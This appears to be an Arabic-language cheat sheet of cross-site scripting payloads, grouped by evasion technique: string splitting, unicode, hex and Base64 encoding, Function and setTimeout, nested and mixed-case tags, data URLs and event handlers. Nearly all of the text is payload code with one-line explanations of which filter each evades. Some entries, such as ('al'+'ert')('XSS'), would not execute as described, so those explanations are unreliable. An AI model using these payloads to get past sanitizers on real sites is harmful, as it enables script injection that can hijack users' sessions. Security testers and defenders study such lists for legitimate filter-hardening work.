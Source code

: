 

1. تقسيم الكلمات:
- <script>('al'+'ert')('XSS')</script>: يقسم alert إلى جزأين لتجاوز فلاتر الكلمات.
- <script>window['al'+'ert']('XSS')</script>: يستخدم خاصية الكائن مع تقسيم alert.
- <script>eval('al'+'ert')('XSS')</script>: يجمع alert عبر eval.
- <script>window['a'+'l'+'e'+'r'+'t']('XSS')</script>: يقسم alert إلى حروف.
- <script>('con'+'firm')('XSS')</script>: يقسم confirm لتجنب فلاتر التأكيد.
- <script>eval('prom'+'pt')('أدخل:','XSS')</script>: يقسم prompt لنافذة الإدخال.

2. التشفير:
- <script>\u0061lert('XSS')</script>: يشفر a بيونيكود (\u0061 = a).
- <script>eval('\x61lert(\'XSS\')')</script>: يشفر a بصيغة هيكس (\x61 = a).
- <script>alert(String.fromCharCode(88,83,83))</script>: يشفر XSS بـ ASCII (88=X، 83=S).
- <script>alert('\x58\x53\x53')</script>: يشفر XSS بصيغة هيكس.
- <script>alert('\u0058\u0053\u0053')</script>: يشفر XSS بيونيكود.
- <script>eval('\u0061\u006c\u0065\u0072\u0074')('XSS')</script>: يشفر alert بيونيكود.
- <script>String.fromCharCode(97,108,101,114,116)('XSS')</script>: يشفر alert بـ ASCII.

3. دوال بديلة:
- <script>Function('alert("XSS")')()</script>: يستخدم باني Function.
- <script>new Function('alert("XSS")')()</script>: صيغة مشابهة لـ Function.
- <script>(window['Function'])('alert("XSS")')()</script>: يصل إلى Function عبر window.
- <script>setTimeout('alert("XSS")')</script>: ينفذ بعد تأخير.
- <script>setInterval('alert("XSS")',1000)</script>: ينفذ بشكل متكرر.
- <script>Object.getOwnPropertyDescriptor(window,'alert').value('XSS')</script>: يصل إلى alert عبر الخصائص.

4. تداخل الوسوم:
- <scr<script>ipt>alert('XSS')</scr<script>ipt>: يداخل <script> لتجاوز فلاتر الوسم.
- <script>/*تعليق*/alert('XSS')/*تعليق*/</script>: يضيف تعليقات للإرباك.
- <script>alert('XSS')//تعليق</script>: يستخدم تعليق متتالي.
- <script>a=alert,a('XSS')</script>: يعين alert لمتغير.
- <script>alert`XSS`</script>: يستخدم علامات اقتباس خلفية.

5. الحالات والصيغ:
- <SCRIPT>alert('XSS')</SCRIPT>: حروف كبيرة لتجاوز فلاتر الحالة.
- <sCrIpT>alert('XSS')</sCrIpT>: حالات مختلطة.
- <script type="text/javascript">alert('XSS')</script>: يحدد نوع النص.
- <script language="javascript">alert('XSS')</script>: يستخدم سمة language.
- <ScRiPt>AlErT('XSS')</ScRiPt>: يمزج الحالات.

6. مصادر خارجية:
- <script src=javascript:alert('XSS')></script>: يستخدم عنوان javascript:.
- <script src=data:,alert('XSS')></script>: يستخدم عنوان بيانات.
- <script src="data:text/javascript,alert('XSS')"></script>: صيغة أخرى لعنوان البيانات.
- <script src="data:;base64,YWxlcnQoIlhTUyIp"></script>: يشفر alert("XSS") بـ Base64.
- <script>eval(atob('YWxlcnQoIlhTUyIp'))</script>: يستخدم Base64 مع atob.

7. أحداث معقدة:
- <img src=x onerror=('al'+'ert')('XSS')>: يقسم alert في onerror.
- <img src=x onerror=window['alert']('XSS')>: يستخدم window['alert'].
- <img src=x onerror=Function('alert("XSS")')()>: يستخدم Function.
- <svg onload=('con'+'firm')('XSS')>: يقسم confirm في onload.
- <input autofocus onfocus=eval('al'+'ert')('XSS')>: يستخدم تقسيم alert في onfocus.
